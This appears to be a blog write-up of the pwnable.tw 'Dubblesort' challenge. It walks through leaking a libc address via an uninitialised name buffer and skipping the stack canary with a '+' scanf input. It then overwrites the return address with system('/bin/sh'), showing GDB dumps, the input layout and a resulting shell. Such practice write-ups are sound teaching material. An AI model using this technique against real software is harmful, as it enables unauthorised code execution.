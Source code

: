 ```yaml
---
title: "Dubblesort"
date: 2023-01-27T19:46:10-08:00
draft: false
---
```


# Dubblesort

Okay this was by far the most frustrating challenge yet. So many issues that took way too long to fix. Nevertheless, it's solved and here's how it's done.

Start out by checking the security on the binary:

```
pwn checksec ./dubblesort
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    FORTIFY:  Enabled
```

Yikes. Alright looks like there's gonna be a very specific bug here. Lets test out the program to see what happens:

```
What your name :a
Hello a
��,How many numbers do you what to sort :2
Enter the 0 number : 1
Enter the 1 number : 2
Processing......
Result :
1 2
```

Hmmm. Looks like there's some weird stuff going on when it asks for your name. After a look in GDB, looks like it's just printing out whatever is on the stack. There's some random values there to look at:

```
pwndbg> x/20x 0xffffda3c <- Location of name on the stack
0xffffda3c:     0x000040d7      0xffffdc69      0x0000002f      0x0000009e
0xffffda4c:     0x00000016      0x00008000      0xf7fcf000      0xf7fcd244
```

Woah that 7th value is interesting... After a check in vmmap I can see it's the GOT of libc. This means if we leak this, there is a chance of a ret2libc attack. Alright lets try it to see what we get. I need to input 25 "A"s and I should be able to leak that value. The reason it has to be 25 and not 24 is because the printf call will stop the print at the null value in the address (e.g `0xf7fcf000`) the first character `\x00` will stop the printf before it prints the rest of the address. So we can overwrite that last value and it should print the whole thing like this: `0xf7fcf041` in this case: `0x41` is the hex value of "A" which will be printed to the screen along with the rest of the address. After this leak, we now can calculate the base of libc.

Okay have a libc leak. How can we utilize this to our advantage. My first though was hey maybe if I buffer overflow the part where it asks me for the number I'd like to sort maybe I can overwrite the return address on the stack. Welp:

```
What your name :A
Hello A
��,How many numbers do you what to sort :1
Enter the 0 number : 111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111
Processing......
Result :
4294967295
```

Okay looks like it converts my number directly into a %u unsigned integer

```
 0x56555a95 <main+210>    call   __isoc99_scanf@plt
        format: 0x56555bfa ◂— 0x45007525 /* '%u' */
        vararg: 0xffffda4c —▸ 0xf7ffc7e0
```

Yep.

Okay what if we figure out a way to exploit the sorting function. Maybe there's some weird stuff with the sorting function that would cause some funkiness in the program. Lets try it:

```
What your name :a
Hello a
��,How many numbers do you what to sort :25
Enter the 0 number : 1
Enter the 1 number : 1
Enter the 2 number : 1
Enter the 3 number : 1
Enter the 4 number : 1
Enter the 5 number : 1
Enter the 6 number : 1
Enter the 7 number : 1
Enter the 8 number : 1
Enter the 9 number : 1
Enter the 10 number : 1
Enter the 11 number : 1
Enter the 12 number : 1
Enter the 13 number : 1
Enter the 14 number : 1
Enter the 15 number : 1
Enter the 16 number : 1
Enter the 17 number : 1
Enter the 18 number : 1
Enter the 19 number : 1
Enter the 20 number : 1
Enter the 21 number : 1
Enter the 22 number : 1
Enter the 23 number : 1
Enter the 24 number : 1
Processing......
1Result :
1 1 1 1 1 1 1 1 1 1 1 1 1 1 1 1 1 1 1 1 1 1 1 1 1 *** stack smashing detected ***: terminated
```

OOOH we got a stack smash. HUH??? What's going on. I took a look at our input in GDB to see what I could make of it:
Before input:

```
pwndbg> x/30x 0xffffda4c
0xffffda4c:     0xf7ffc7e0      0x00000000      0x00000000      0x00005034
0xffffda5c:     0x5998aa00      0x029c6fbf      0x00000534      0x0000009e
0xffffda6c:     0xf7fb0a61      0x00000000      0xf7fba000      0xf7ffc7e0
0xffffda7c:     0xf7fbdc68      0xf7fba000      0xf7fe22f0      0x00000000
0xffffda8c:     0x56555601      0x565557a9      0x56556fa0      0x00000001
0xffffda9c:     0x56555b72      0x00000001      0xffffdb64      0xffffdb6c
0xffffdaac:     0x5998aa00 <- Stack Canary
```

After input:

```
0xffffda4c:     0x00000001      0x00000001      0x00000001      0x00000001
0xffffda5c:     0x00000001      0x00000001      0x00000001      0x00000001
0xffffda6c:     0x00000001      0x00000001      0x00000001      0x00000001
0xffffda7c:     0x00000001      0x00000001      0x00000001      0x00000001
0xffffda8c:     0x00000001      0x00000001      0x00000001      0x00000001
0xffffda9c:     0x00000001      0x00000001      0x00000001      0x00000001
0xffffdaac:     0x00000001 <- Was stack canary
```

Okay we overwrote the stack canary. That sucks, but that means if we can do that, we can overwrite the return address. The only problem is the stack canary will always be in the way. If only there was a way to skip over the canary... Well if I try to enter a letter "L" into the input at any point. It crashes the scanf function and it doesn't read anything else. This was the method I started with, but soon found out a much better solution. If you enter the "+" symbol instead of the number, it won't crash the scanf function, but it also won't overwrite whatever is in memory at that spot. So If I do this at the stack canary it will prevent it from being overwritten. There's one more obstacle in this: Whatever I enter needs to be in ascending order. This is a sorting function right?

Alright so looks like I have all the information I need now to complete the exploit. I start out with a leak in libc. Then I enter an ascending stack with a "+" at the 25th spot and then All the values afterward need to be larger than the stack canary. This would allow me to overwrite the return address and change the control flow of the program. The inputs would look a little like this:

```
"1" * 24
"+" 
"<addr_system>" * 9 <-- 9th value overwrites return addr
"<addr_binsh>"
```

Since I have the address of libc, I can calculate all the offsets to get the address of system and the string "/bin/sh". When the program returns it will call `system("/bin/sh")` And there's our shell.

```
[b'Hello', b'AAAAAAAAAAAAAAAAAAAAAAAAAPm\xf7D2m\xf7\x01\xf6YV\xa9\xf7YV\xa0\x0fZV\x01', b'How', b'many', b'numbers', b'do', b'you', b'what', b'to', b'sort', b':']
./e.py:34: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.sendline(str(length))
./e.py:48: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.sendline(str(system))
./e.py:52: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.sendline(str(binsh))
Processing......
Result :
4 4 4 4 4 4 4 4 4 4 4 4 4 4 4 4 4 4 4 4 4 4 4 4 2294056704 4149606720 4149606720 4149606720 4149606720 4149606720 4149606720 4149606720 4149606720 4149606720 4150779531 $ ls
bin
boot
dev
etc
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

For more details on the actual exploit script take a look at `e.py` in the repo.

### Issues

I thought I'd add an issues section for this challenge because I didn't necessarily have much trouble with the exploit, but I had a lot of problems with the setup of the program.

This is the first program on pwnable.tw that I've done that offers a download of the libc that is supposed to be used in the program. What they didn't include was a copy of the ld.so for the program. This means that the program will run on your personal libc and the exploit will not actually be the same as the remote one.

The way to get around this is to patch the elf to use the libc that they give you. I found a super nice tool called [pwninit](https://github.com/io12/pwninit) That you can use to patch the ELF automatically. It's like magic. Just hop into the directory with the libc and the binary you want to patch and run `pwninit` and it will find the necessary files and patch the ELF. This was essential to solving the problem. Without this, I would not have been able to run the binary in gdb and find the proper offsets.

